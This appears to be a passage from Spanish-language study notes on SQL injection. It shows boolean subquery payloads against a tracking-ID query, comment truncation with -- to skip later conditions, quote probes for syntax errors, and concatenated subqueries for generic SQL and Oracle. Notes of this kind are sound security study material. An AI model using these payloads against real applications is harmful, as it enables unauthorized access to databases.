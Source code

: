 ```
SELECT ID FROM TRACK WHERE TRACKID = 'xyz' AND (SELECT 'a' FROM users LIMIT 1)='a'
```
<br><br>**NOTA** Depues la consulta base se pueden añadir el comentario <br>
```
Consulta ideal
SELECT ID FROM TRACK WHERE TRACKID = 'xyz' AND TTL<24

Sin comentarios
SELECT ID FROM TRACK WHERE TRACKID = 'xyz' AND (SELECT 'a' FROM users LIMIT 1)='a' AND TTL<24 => No evita las demás validaciones

Sentencia con comentarios
' AND (SELECT 'a' FROM users LIMIT 1)='a'--

Con comentarios
SELECT ID FROM TRACK WHERE TRACKID = 'xyz' AND (SELECT 'a' FROM users LIMIT 1)='a'--' AND TTL<24 => Evita las validaciones siguientes
```
<br><br>**Nota2**: Ctrl + click copia toda la columna de intruder<br>

## Error de sintaxis
### Comilla simple
` ' `
### Comilla doble (Cadena vacia)
` '' `
<br><br>**Ejemplo** 
```
Consulta ideal
SELECT ID FROM TRACK WHERE TRACKID = 'xyz'

Comilla simple (Genera error)
SELECT ID FROM TRACK WHERE TRACKID = 'xyz''

Comilla doble (Cadena vacia)
SELECT ID FROM TRACK WHERE TRACKID = 'xyz'''
```
## Subconsultas concatenada
Toda concatenación debe tener en cuenta el tipo de dato de las varibles ya que una concatenación ocurre en un tipo cadena por lo que todo se debe convertir en este tipo de dato por eso es necesario el comando `TO_CHAR(Varible/operacion)`
### SQL
` '||(SELECT '')||' `
### SQL Oracle
` '||(SELECT '' FROM dual)||' `
<br><br>**Ejemplo** 
```
Consulta ideal
SELECT ID FROM TRACK WHERE TRACKID = 'xyz'

SQL
SELECT ID FROM TRACK WHERE TRACKID = 'xyz'||(SELECT '')||''

SQL Oracle
SELECT ID FROM TRACK WHERE TRACKID = 'xyz'||(SELECT '' FROM dual)||''

```
## Subconsultas Concatenada aplicadas
### Verificar una tabla